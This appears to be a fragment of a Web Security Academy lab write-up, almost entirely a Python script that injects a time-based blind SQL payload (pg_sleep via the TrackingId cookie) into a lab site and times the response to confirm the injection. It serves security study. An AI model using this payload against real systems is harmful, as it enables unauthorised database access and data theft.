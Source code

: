 This time, I used a script.

```python
import requests

URL = "https://ac8f1f751f24031280057f38005b0051.web-security-academy.net/"
URL2 = "https://ac8f1f751f24031280057f38005b0051.web-security-academy.net/filter?category=Gifts"
# seconds
SLEEP = 10
SESSION = "wIq9FBJv5MvcxATX5Aa8trW9Cdl3rJka"
password = ''


def test_techniques():
    # exammple: trackind_id = "Ru'%3bSELECT+pg_sleep(10)--"
    techniques = [
        "SELECT+pg_sleep(10)--"
    ]

    for technique in techniques:
        tracking_id = "Ru'%3b" + technique
        print("[*] Tryking %s" % tracking_id)
        cookies = dict(TrackingId=tracking_id, session=SESSION)

        response = requests.get(URL, cookies=cookies)
        time_taken = float(response.elapsed.total_seconds())
        if time_taken > 10:
            print("[*] Blind SQLi executed")


def main():
    test_techniques()


if __name__ == "__main__":
    main()
```

